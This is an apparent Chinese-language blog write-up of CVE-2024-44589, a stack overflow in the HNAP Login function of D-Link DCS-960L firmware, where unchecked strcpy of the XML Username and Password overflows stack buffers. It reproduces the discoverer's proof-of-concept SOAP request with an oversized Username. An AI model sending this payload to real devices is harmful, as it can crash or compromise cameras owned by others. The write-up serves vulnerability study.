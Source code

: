 ```
https://github.com/Xshacry/iot-vuln/blob/main/d-link/dcs-935l/readme.md
```

固件下载地址：

```
https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DCS-960L
```



漏洞点在HNAP处理登录的Login函数：

获取xml中的`Username`和`Password`后，直接strcpy，没有限制长度，而

v37和v39都是栈上的，所以造成了stack overflow。

![image-20240920163515580](./D-Link DCS-960L 栈溢出 CVE-2024-44589/images/image-20240920163515580.png)



作者给的PoC：

```xml
SOAPAction: http://192.168.0.1/HNAP1/Login
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Login xmlns="http://192.168.0.1/HNAP1/">
      <Action></Action>
      <Username>a * 0x10000</Username>
      <LoginPassword/>
      <Captcha/>
    </Login>
  </soap:Body>
</soap:Envelope>
```

![image-20240920163536062](./D-Link DCS-960L 栈溢出 CVE-2024-44589/images/image-20240920163536062.png)

楽，CVE确实不用写出EXP。。。（还得回顾一下XML Soap了。。。）